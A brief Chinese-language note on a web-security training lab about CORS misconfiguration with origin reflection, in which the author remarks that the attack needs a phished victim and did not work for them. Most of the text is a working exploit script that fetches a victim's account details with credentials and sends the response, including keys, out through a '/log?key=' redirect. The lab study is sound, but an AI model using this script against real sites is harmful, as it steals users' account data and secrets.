# 具有基本起源反射的 CORS 漏洞
CORS vulnerability with basic origin reflection
原来这漏洞是需要受害者自己触发的，需要一定的钓鱼，但是这里不知道为什么不行
```
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0afd003f03132956818a6caa002c00af.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```